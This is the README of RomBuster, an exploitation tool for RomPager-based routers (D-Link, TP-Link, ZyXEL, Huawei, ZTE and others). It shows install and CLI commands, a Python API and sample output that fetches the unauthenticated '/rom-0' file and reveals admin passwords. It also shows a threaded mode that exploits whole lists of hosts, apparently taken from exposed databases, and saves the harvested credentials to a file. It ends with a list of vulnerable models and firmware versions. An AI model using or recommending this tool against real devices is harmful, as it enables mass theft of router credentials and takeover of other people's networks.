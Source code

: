 # RomBuster

RomBuster is a RomPager exploitation tool that allows to disclosure network router admin password.

## Features

* Exploits vulnerabilities in most popular router models with RomPager installation such as `D-Link`, `Zyxel`, `TP-Link` and `Huawei`.
* Optimized to exploit multiple routers at one time from list with threading enabled.
* Simple CLI and API usage.

## Installation

```shell
pip3 install git+https://github.com/EntySec/RomBuster
```

## Basic usage

To use RomBuster just type `rombuster` in your terminal.

```
usage: rombuster [-h] [--threads] [--output OUTPUT] [--input INPUT] [--address ADDRESS]

RomBuster is a RomPager exploitation tool that allows to disclosure network router admin password.

optional arguments:
  -h, --help         show this help message and exit
  --threads          Use threads for fastest work. [best]
  --output OUTPUT    Output result to file.
  --input INPUT      Input file of addresses.
  --address ADDRESS  Single address.
```

### Examples

Let's hack my router just for fun.

```shell
rombuster --address 192.168.2.1
```

**output:**

```shell
[*] (192.168.2.1) - connecting to device...
[*] (192.168.2.1) - accessing device rom...
[*] (192.168.2.1) - extracting credentials...
[i] (192.168.2.1) - admin:SuperHardPassword999
```

Let's try to use opened database of hosts with `--threads` for fast exploitation.

```shell
rombuster --threads --input routers.txt --output passwords.txt
```

It will exploit all devices in `routers.txt` list by their addresses and save all obtained passwords to `passwords.txt`.

**output:**

```shell
[*] Initializing thread #0...
[*] (x.x.x.x) - connecting to device...
[*] Initializing thread #1...
[*] (x.x.x.x) - connecting to device...
[*] Initializing thread #2...
[*] (x.x.x.x) - connecting to device...
[*] (x.x.x.x) - accessing device rom...
[*] (x.x.x.x) - extracting credentials...
[i] Thread #0 completed.
[*] (x.x.x.x) - connecting to device...
[*] (x.x.x.x) - accessing device rom...
[*] (x.x.x.x) - extracting credentials...
[i] Thread #1 completed.
[*] (x.x.x.x) - connecting to device...
[*] (x.x.x.x) - accessing device rom...
[*] (x.x.x.x) - extracting credentials...
[i] Thread #2 completed.
```

## RomBuster API

RomBuster also has their own Python API that can be invoked by importing RomBuster to your code:

```python
from rombuster import RomBuster
```

### Basic functions

There are all RomBuster basic functions that can be used to exploit specified device.

* `connect(host)` - Connect specified defice by netword address.
* `exploit(device)` - Exploit connected device.

### Examples

```python
from rombuster import RomBuster

rombuster = RomBuster()

device = rombuster.connect('192.168.2.1')
print(rombuster.exploit(device))
```

**output:**

```shell
{'admin':'SuperHardPassword999'}
```

## Vulnerability details

Vulnerability that exploits **RomBuster** exists nowadays in some popular routers all over the world. This vulnerability allows you to download `/rom-0` RomPager configuration file without authentication. **RomBuster** downloads this file, decodes it and giving you password of the router `admin`. Pretty easy way to access main network interface - router.

**Vulnerable devices:**

* **AirLive WT-2000ARM** (`2.11.6.0(RE0.C29)3.7.6.1`)
* **D-Link DSL-2520U** (`1.08 Hardware Version: B1`)
* **D-Link DSL-2640R**
* **D-Link DSL-2740R** (`EU_1.13 Hardware Version: A1`)
* **Huawei 520 HG**
* **Huawei 530 TRA**
* **Pentagram Cerberus P 6331-42**
* **TP-Link TD-8816**
* **TP-Link TD-8817** (`3.0.1 Build 110402 Rel.02846`)
* **TP-LINK TD-8840T** (`3.0.0 Build 101208 Rel.36427`)
* **TP-Link TD-W8901G**
* **TP-Link TD-W8951ND**
* **TP-Link TD-W8961ND**
* **ZTE ZXV10 W300** (`W300V1.0.0a_ZRD_CO3`)
* **ZTE ZXDSL 831CII** (`ZXDSL 831CIIV2.2.1a_Z43_MD`)
* **ZynOS**
* **ZyXEL ES-2024**
* **ZyXEL Prestige P-2602HW**
* **ZyXEL Prestige 782R**
